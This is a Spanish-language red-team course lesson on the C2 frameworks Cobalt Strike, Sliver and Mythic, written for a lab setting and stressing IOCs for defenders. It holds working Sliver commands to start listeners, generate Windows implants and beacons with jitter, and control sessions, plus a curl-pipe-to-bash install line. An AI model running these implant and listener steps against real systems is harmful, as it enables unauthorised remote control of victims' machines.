

# Clase 165 — Frameworks C2: Cobalt Strike, Sliver y Mythic

> Parte: **7 — Red Team y operaciones ofensivas** · Fuente: *Operator Handbook (T. Bryant) / documentación de Sliver y Mythic*
> ⏱️ Duración estimada: **120 min** · Nivel: **Avanzado**

---

## 🎯 Objetivo

Conocer y operar los principales frameworks de C2. El alumno montará Sliver y Mythic en su laboratorio, generará implantes, entenderá el modelo de listeners/perfiles y comparará estas plataformas open-source con el estándar comercial (Cobalt Strike), incluyendo cómo cada una genera telemetría que el Blue Team puede detectar.

## 📚 Resultados de aprendizaje

Al finalizar, el alumno podrá:

1. **Instalar y operar** Sliver: generar implantes, listeners y sesiones.
2. **Desplegar** Mythic y entender su modelo de agentes y C2 profiles.
3. **Comparar** Cobalt Strike, Sliver y Mythic (licencia, features, detección).
4. **Configurar** un perfil de tráfico (malleable-like) para mimetizar aplicaciones.
5. **Identificar** los IOCs que cada framework deja para la defensa.

## 🗺️ Temas

| # | Tema | Por qué importa |
|---|------|-----------------|
| 1 | Modelo listener/implante/sesión | Base conceptual de todo C2 |
| 2 | Sliver (Go, open source) | C2 moderno, multiplataforma y gratuito |
| 3 | Mythic (modular, Docker) | Framework extensible con múltiples agentes |
| 4 | Cobalt Strike (comercial) | Estándar de la industria; Beacon y perfiles |
| 5 | Beacons vs stagers | Trade-off tamaño/sigilo en la entrega |
| 6 | Perfiles de tráfico | Mimetizar HTTP legítimo |
| 7 | Telemetría e IOCs | Cómo detecta el Blue Team cada framework |

## 🧠 Explicación en profundidad

Un framework de C2 es el sistema operativo del Red Team: genera los implantes, gestiona las sesiones y da al operador la consola desde la que trabaja. Aunque hay muchos, todos comparten el **mismo modelo conceptual** —listener, implante, sesión— y se diferencian en licencia, extensibilidad y, sobre todo, en la **telemetría que dejan** para el Blue Team. Entender ese modelo común es lo que permite pasar de una herramienta a otra sin reaprender de cero.

### El modelo común: listener, implante, sesión

Tres piezas explican cualquier C2. El **listener** es el servicio que espera conexiones (HTTP/HTTPS/DNS/mTLS): define el canal de entrada. El **implante** (agente o beacon) es el código que corre en la víctima y "llama a casa". La **sesión** es el control interactivo que el operador obtiene sobre ese implante. Toda operación es, en el fondo, generar un implante que hable con un listener para abrir una sesión.



### Beacon vs stager: el trade-off de la entrega

Un **stager** es un payload minúsculo cuya única misión es descargar el implante completo; es pequeño (cabe en una macro o un one-liner) pero hace una **petición extra observable** —justo el momento que muchas detecciones cazan—. Un payload **stageless** lleva todo el implante de una vez: más grande y ruidoso en disco, pero sin esa descarga delatora. Elegir entre uno y otro es un cálculo de sigilo según el vector de entrega.

### Los tres frameworks de referencia

- **Cobalt Strike** es el estándar comercial: su implante **Beacon** y los **Malleable C2 profiles** definieron el género. Precisamente por ubicuo, es el más perfilado por los EDR —y su uso pirata es ilegal, por lo que aquí se estudia solo conceptualmente—.
- **Sliver** (BishopFox, escrito en Go) es open source, multiplataforma y moderno: mTLS por defecto, implantes stageless robustos y una consola cómoda. Es el caballo de batalla gratuito del laboratorio.
- **Mythic** es un framework **modular** sobre Docker: separa el servidor de los **agentes** (Apollo, Medusa…) y los **C2 profiles**, de modo que se extiende con perfiles y agentes nuevos sin tocar el núcleo.

| Framework | Licencia | Lenguaje | Rasgo distintivo |
|---|---|---|---|
| Cobalt Strike | Comercial | Java/C | Beacon + Malleable, muy detectado |
| Sliver | Open source | Go | mTLS, multiplataforma, fácil de montar |
| Mythic | Open source | Docker/varios | Modular: agentes y perfiles enchufables |

### Perfiles de tráfico: mimetizar lo normal

El sigilo en la red depende del **C2 profile**: la plantilla que define cómo se ven las peticiones —URIs, cabeceras, cadencia—. Un buen perfil hace que el beacon parezca tráfico de una aplicación corriente (una API de actualizaciones, telemetría de un producto) en lugar de un patrón anómalo. Sliver y Mythic ofrecen equivalentes al Malleable de Cobalt Strike; un perfil por defecto, sin personalizar, es una de las formas más rápidas de que te detecten.

### La otra cara: cada framework deja huella

Ningún C2 es invisible. Cada uno deja **IOCs** característicos: certificados TLS con valores por defecto, tamaños y cadencias de check-in, artefactos en memoria (patrones del Beacon), named pipes con nombres reconocibles. Estudiar el framework desde el lado ofensivo es también aprender **qué telemetría genera**, porque ese conocimiento es exactamente lo que el Blue Team usa para cazarlo —y lo que el purple teaming (Clase 178) convierte en detecciones—.

## 📖 Definiciones y características

- **Listener**: servicio que espera conexiones de implantes (HTTP/HTTPS/DNS/mTLS). Característica: define el canal de entrada.
- **Implante / agente / beacon**: código que se ejecuta en la víctima y llama a casa. Característica: puede ser interactivo o "beacon" con intervalos.
- **Stager vs stageless**: descarga por fases vs payload completo. Característica: stager es pequeño pero hace una petición extra observable.
- **Beacon (Cobalt Strike)**: implante de referencia con jitter y sleep configurables. Característica: define el estándar que muchos EDR detectan.
- **C2 profile**: define cómo se ve el tráfico (Sliver/Mythic tienen equivalentes al Malleable de CS). Característica: clave para el sigilo.
- **Jitter / sleep**: variación aleatoria del intervalo de check-in. Característica: dificulta la detección por periodicidad (beaconing).

## 📔 Glosario

| Término | Definición concisa |
|---------|--------------------|
| C2 framework | Plataforma que genera implantes y gestiona sesiones |
| Listener | Servicio que espera conexiones de implantes |
| Implante / agente | Código que corre en la víctima y llama a casa |
| Beacon | Implante que hace check-in a intervalos con jitter |
| Sesión | Control interactivo del operador sobre un implante |
| Stager | Payload pequeño que descarga el implante completo |
| Stageless | Payload que lleva el implante completo de una vez |
| Cobalt Strike | C2 comercial de referencia; Beacon y Malleable |
| Sliver | C2 open source en Go, multiplataforma, mTLS |
| Mythic | C2 modular sobre Docker con agentes y perfiles |
| C2 profile | Plantilla que define cómo se ve el tráfico C2 |
| Malleable C2 | Lenguaje de perfiles de tráfico de Cobalt Strike |
| mTLS | TLS mutuo; ambos extremos se autentican con certificado |
| Jitter / sleep | Aleatoriedad e intervalo del check-in |
| Named pipe | Canal IPC de Windows usado por algunos implantes |
| IOC | Indicador de compromiso que deja el framework |

## 🧰 Herramientas y preparación

- **Sliver:** `curl https://sliver.sh/install | sudo bash` (o binarios del release en GitHub).
- **Mythic:** Docker + `git clone https://github.com/its-a-feature/Mythic && ./mythic-cli start`.
- Cobalt Strike es **comercial y licenciado**: aquí solo se estudia conceptualmente; no se distribuye ni se usan versiones pirateadas.
- La infraestructura de redirectores de la Clase 164 como front-end de los listeners.
- VMs Windows/Linux de laboratorio para desplegar implantes.

> ⚠️ Los implantes solo se ejecutan en máquinas de tu propio laboratorio. Descargar o usar Cobalt Strike sin licencia legítima es ilegal y quedará fuera de este curso: nos enfocamos en Sliver y Mythic (open source).

## 🧪 Laboratorio guiado

1. **Instala Sliver** y entra en la consola:

   ```bash
   sliver
   sliver > https --lhost 0.0.0.0 --lport 443   # levanta un listener HTTPS
   ```

2. **Genera un implante:**

   ```bash
   sliver > generate --http tu-redirector.lab --os windows --arch amd64 --save /tmp/
   ```

   Entrega el binario a una VM Windows de tu lab y ejecútalo.
3. **Interactúa con la sesión:**

   ```bash
   sliver > sessions
   sliver > use <session-id>
   sliver (SESSION) > info; ps; ls
   ```

4. **Ajusta sigilo:** configura `beacon` con sleep y jitter:

   ```bash
   sliver > generate beacon --http tu-redirector.lab --seconds 60 --jitter 30
   ```

5. **Despliega Mythic** con Docker y crea un operador; instala un agente (ej. Apollo o Poseidon) desde `mythic-cli install github ...`.
6. **Compara telemetría.** En la VM víctima observa procesos, conexiones (`netstat`) y, si tienes Sysmon (Parte 8), los eventos que generan Sliver vs Mythic.
7. **Documenta IOCs.** Anota puertos, User-Agents por defecto, nombres de proceso y patrones de beaconing detectables.

## ✍️ Ejercicios

1. Explica la diferencia entre sesión interactiva y beacon con un caso de uso para cada una.
2. Genera dos implantes Sliver (HTTPS y mTLS) y compara su tráfico.
3. Instala un agente en Mythic y lista sus comandos disponibles.
4. Configura jitter alto y mide cómo cambia el patrón de check-in.
5. Elabora una tabla comparativa Cobalt Strike vs Sliver vs Mythic (licencia, canales, extensibilidad).
6. Lista 5 IOCs por defecto de Sliver que un SOC podría alertar.

## 📝 Reto verificable

Establece en tu laboratorio una sesión C2 con **Sliver** que atraviese el redirector de la Clase 164, configurada como beacon con jitter, y documenta al menos 4 IOCs que genera.
**Criterio de aceptación:** la sesión aparece en `sliver > sessions/beacons`, el tráfico pasa por el redirector (el team server no es alcanzable directo desde la víctima) y presentas una lista de IOCs observados con la fuente de datos que los revelaría.

## ⚠️ Errores comunes

| Síntoma / mensaje | Causa y cómo arreglar |
|-------------------|-----------------------|
| El implante no llama a casa | Listener/redirector mal configurado o firewall; revisa puertos y DNS del lab |
| `mythic-cli` no arranca | Docker no corre o puertos ocupados; revisa `docker ps` y logs |
| EDR mata el implante al instante | Payload por defecto muy conocido; aplica evasión (Clases 168–169) |
| Beaconing evidente en el SIEM | Jitter=0; añade jitter y perfil realista |
| Sesión se cae al reiniciar la VM | Falta persistencia; se aborda en clases de AD y post-explotación |

## ❓ Preguntas frecuentes

**❓ ¿Por qué no usamos Cobalt Strike directamente?**
Es comercial y su uso requiere licencia legítima. Sliver y Mythic son open source, potentes y suficientes para aprender los conceptos, que son transferibles.

**❓ ¿Sliver es "menos detectable" que Cobalt Strike?**
Los payloads por defecto de cualquier framework conocido son detectables. Lo que reduce la detección es el perfil de tráfico y la evasión, no la marca del framework.

**❓ ¿Qué canal C2 elijo?**
HTTPS con perfil realista para trabajo diario; mTLS para robustez interna del lab; DNS como respaldo sigiloso pero lento.

## 🔗 Referencias

- Sliver (BishopFox). <https://github.com/BishopFox/sliver> · <https://sliver.sh/>
- Mythic. <https://github.com/its-a-feature/Mythic> · <https://docs.mythic-c2.net/>
- Bryant, T. — *Operator Handbook*.
- MITRE ATT&CK — *Application Layer Protocol* (`T1071`). <https://attack.mitre.org/techniques/T1071/>

## 📥 Material descargable

- 📄 [Guía en PDF](./clase-165-guia.pdf) — versión imprimible de esta clase.
- 🎞️ [Presentación (PPTX)](./clase-165-presentacion.pptx) — deck para proyectar en clase.

## ⬅️ Clase anterior

[Clase 164 — Diseño de infraestructura de comando y control (C2)](../164-diseno-de-infraestructura-de-comando-y-control-c2/README.md)

## ➡️ Siguiente clase

[Clase 166 — Phishing y entrega de payloads](../166-phishing-y-entrega-de-payloads/README.md)
